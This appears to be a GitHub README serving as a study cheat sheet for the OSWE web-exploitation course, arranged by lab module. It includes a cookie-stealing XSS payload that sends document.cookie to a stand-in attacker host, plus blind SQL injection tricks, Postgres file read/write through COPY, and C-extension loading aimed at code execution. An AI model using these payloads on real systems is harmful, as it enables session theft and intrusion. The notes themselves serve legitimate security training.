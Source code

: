 # OSWE-cheat-sheet
OSWE-cheat sheet module by module with updated syllabus:

Module : Atmail (PHP):

1. Access and alert cookie payload (Httponly flag should be disable in set-Cookie headers)<br>
    <script>alert(document.cookie);</script>
    
2. Run Python Server in python3<br>
    python3 -m http.server
    
3. Embeded cookie steal payload in image tag<br>
    function addImage() {<br>
    var img = document.createElement('img');<br>
    img.src = 'http://AttackerIP:port/' + document.cookie;<br>
    document.body.appendChild(img);<br>
    }<br>
    addImage();<br>
    
4. Set cookie by web developer console<br>
    javascript:void(document.cookie="cookiename=value");
 
5. XHR POST Request <br>
    xhr= new XMLHttpRequest()<br>
    xhr.open("POST", url, true)<br>
    xhr.send(data)<br>
    
6. XHR GET Request <br>
    xhr= new XMLHttpRequest()<br>
    xhr.open("GET", url, true)<br>
    xhr.send()<br>

 Module : ATutor Authentication Bypass and RCE (PHP) :<br>
 1. Enable MySQL DB logging<br>
    nano /etc/mysql/my.cnf         // uncomment or add below line<br>
            #[mysqld]<br>
            #general_log_file = /var/log/mysql/mysql.log<br>
            #general_log = 1<br>
    systemctl restart mysql        //Restart MySQL<br>
    tail –f /var/log/mysql/mysql.log   //Access MySQL Log<br>
    
 2. Enable PHP verbose error<br>
    nano /etc/php5/apache2/php.ini   //uncomment or add below line<br>
        #display_errors = On <br>
    systemctl restart apache2     //Restart Apache<br>
    
3. Print statement in PHP<br>
    echo "any message";<br>
    
4. Dump information about varaible<br>
    var_dump($var);<br>
    
5. Serach for fiunction in code<br>
    grep -rnw "function name(" ./ --color<br>
    
5. Check magic quote enable<br>
    var_dump(get_magic_quotes_gpc());  /** for enable value is 1 **/<br>
    
6. MYSQL query without space<br>
    mysql> select/**/1; <br>
    
7. Extract first character of MySql version in case of blind MySQL query<br>
    mysql> select ascii(substring((select version()),1,1))=53;  /** use with "or" boolean **/<br>
    
8. Create ZIp file using Python2 <br>
    !/usr/bin/python <br>
    import zipfile <br>
    from cStringIO import StringIO<br>

    def build_zip():<br>
        f = StringIO()<br>
        z = zipfile.ZipFile(f, 'w', zipfile.ZIP_DEFLATED)<br>
        z.writestr('folder/file.txt', 'secret')<br>
        z.close()<br>
        zip = open('zip.zip','wb')<br>
        print f.getvalue()<br>
        zip.write(f.getvalue())<br>
        zip.close()<br>
    
    build_zip()<br>

Module : PHP Type Juggling Vulnerability : 
1.  Configure SMTP Server<br>
    #sudo python3 -m smtpd -n -c DebuggingServer 0.0.0.0:25 & /* & for run in background */<br>
    
Module : ManageEngine Application Manager AMUserResourcesSyncServlet SQL(Postgres) Injection & RCE : <br>
1.  web.xml determine how URLs mapped<br>
2.  Tool JD-GUI use to decompile java<br>
3.  Find SQL injection vulnerability using below regular expression<br>
        ^.*?query.*?select.*?<br>
4.  Enable postgres logging by uncommenting below line in postgresql.conf file<br>
        log_statement = 'all'<br>
5.  postgre cli
        psql -U username -p 15432  /* p=port, /<br>
6.  Alternative of single quote(') is duble doller sign($$)<br>
7.  decode string in postgres<br>
        select convert_from(decode('QVdBRQ==', 'base64'), 'utf-8');<br>
8.  Using CHR and String Concatenation<br>
        SELECT CHR(65) || CHR(87) || CHR(65) || CHR(69);<br>
9.  Accessing the File System in postgres<br>
        COPY <table_name> from <file_name><br>
        COPY <table_name> to <file_name><br>
10. PostgreSQL Extensions<br>
        CREATE OR REPLACE FUNCTION test(text) RETURNS void AS 'FILENAME', 'test' LANGUAGE 'C' STRICT;
        
    

    
